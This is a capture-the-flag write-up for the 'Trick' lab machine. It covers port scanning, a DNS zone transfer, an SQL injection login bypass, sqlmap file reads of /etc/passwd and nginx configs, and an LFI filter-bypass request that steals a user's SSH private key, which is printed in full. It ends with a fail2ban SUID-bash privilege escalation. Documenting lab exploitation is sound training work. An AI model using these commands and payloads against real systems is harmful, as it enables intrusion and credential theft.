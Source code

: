 `sudo nmap -sC -sS 10.10.11.166 -oA trick`

`sudo rustscan -a 10.10.11.166 --scripts none --ulimit 5000`

```txt
Open 10.10.11.166:22
Open 10.10.11.166:25
Open 10.10.11.166:53
Open 10.10.11.166:80
10.10.11.166 -> [22,25,53,80]
```

`sudo rustscan -a 10.10.11.166 -p 22,25,53,80 -- -sC -sV`

```txt
Nmap scan report for trick.htb (10.10.11.166)
Host is up, received echo-reply ttl 63 (0.050s latency).
Scanned at 2022-07-16 06:04:10 EDT for 48s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5Rh57OmAndXFukHce0Tr4BL8CWC8yACwWdu8VZcBPGuMUH8VkvzqseeC8MYxt5SPL1aJmAsZSgOUreAJNlYNBBKjMoFwyDdArWhqDThlgBf6aqwqMRo3XWIcbQOBkrisgqcPnRKlwh+vqArsj5OAZaUq8zs7Q3elE6HrDnj779JHCc5eba+DR+Cqk1u4JxfC6mGsaNMAXoaRKsAYlwf4Yjhonl6A6MkWszz7t9q5r2bImuYAC0cvgiHJdgLcr0WJh+lV8YIkPyya1vJFp1gN4Pg7I6CmMaiWSMgSem5aVlKmrLMX10MWhewnyuH2ekMFXUKJ8wv4DgifiAIvd6AGR
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoXvyMKuWhQvWx52EFXK9ytX/pGmjZptG8Kb+DOgKcGeBgGPKX3ZpryuGR44av0WnKP0gnRLWk7UCbqY3mxXU0=
|   256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGY1WZWn9xuvXhfxFFm82J9eRGNYJ9NnfzECUm0faUXm
25/tcp open  smtp    syn-ack ttl 63 Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    syn-ack ttl 63 nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 06:04
Completed NSE at 06:04, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 06:04
Completed NSE at 06:04, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 06:04
Completed NSE at 06:04, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.26 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (204B)
```

`nslookup`
`SERVER 10.10.11.166 #Select dns server`
`127.0.0.1`
`10.10.11.166`

After trying with different dns enum, we found the hostname:
`166.11.10.10.in-addr.arpa       name = trick.htb.`

Let's add this in /etc/hosts file.

Let's try to enemurate more:
`dig any @10.10.11.166 trick.htb`

We got a subdomain root.trick.htb

`dig axfr @10.10.11.166 trick.htb`

preprod-payroll.trick.htb

http://preprod-payroll.trick.htb/login.php

Now let's try to find out more domains if there is any:

`ffuf -w /usr/share/wordlists/bitquark-subdomains-top100000.txt -u http://trick.htb/ -H "Host: FUZZ.trick.htb"`

No luck with fuzzing. Let's try to login via SQL injection with `admin' or '1'='1`
Logged in!
From settings we found the password:
`SuperGucciRainbowCake`

Now as we know the site is vulnerable, we tried to perform sql injection by a saved request file with sqlmap:

We found the DB name `payroll_db` and now we will try to see if we can read any file in the server....

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/etc/passwd --threads 10`

Seems like we were able to read the files. So after enemurating more, we suspected that some useful information about nginx.

https://thatcoder.space/nginx-configurations-and-hacks/

We tried to read the site's nginx configuration to understand it better.

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/etc/nginx/nginx.conf --threads 10`

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/etc/nginx/sites-enabled/default --threads 10`

After going through the files, we found another subdomain `market` in which we suspected LFI vulnerability. So to perform the LFI, we triend to read the index page to see if any filter was used to bypass LFI.

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/var/www/market/index.php --threads 10`

We found the filter and we bypassed it to perform LFI. We found the OPENSSH private key in the `/home/michael/.ssh/id_rsa` file.

`GET /index.php?page=..././..././..././home/michael/.ssh/id_rsa`

Full request:
```txt
GET /index.php?page=..././..././..././home/michael/.ssh/id_rsa HTTP/1.1

Host: preprod-marketing.trick.htb

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close
```

```txt
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Let's save it as key.pem

Now, give the file proper permission:
`chmod 400 key.pem`

Let's try to log in via SSH:
`ssh michael@10.10.11.166 -i key.pem`

As we are in, the user flag is in user.txt file
User Flag: `c5baa4266e32e2ae5b21d804********`

Now let's try to find the priviledges by running `sudo -l`

```txt
User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

After searcing the internet, we found some blog worth looking into!

https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/
https://www.youtube.com/watch?v=zDf2hpCu7D0&t=1187s&ab_channel=HackingWalkthroughs

`cd /etc/fail2ban/action.d`

We followed the guideline and did the following....

Edited the `iptables-multiport.conf` file wit vim and replaced the commands of `actionban` and `actionunban`  with `chmod +s /bin/bash`

`actionban = chmod +s /bin/bash`
`actionunban = chmod +s /bin/bash`

Then we saved the file using `:wq!` command.

Then we restarted the fail2ban service by running the following command:
`sudo /etc/init.d/fail2ban restart`

After the service restarted, we tried to attempt failed login so that our command executes.

`sshpass -p test ssh miachael@10.10.11.166`

While attempting, we watched the permission of bash shell using `watch -n 0 ls -la /bin/bash` command.

After 5 times failed attempt, we saw that our permission of bash file changed. Now we tried to run the bash shell using `bash -p` command.

Now we have root!

We found the root flag in /root/root.txt

Root Flag: `b03a2e8b76cf2b89c0b173ee********`
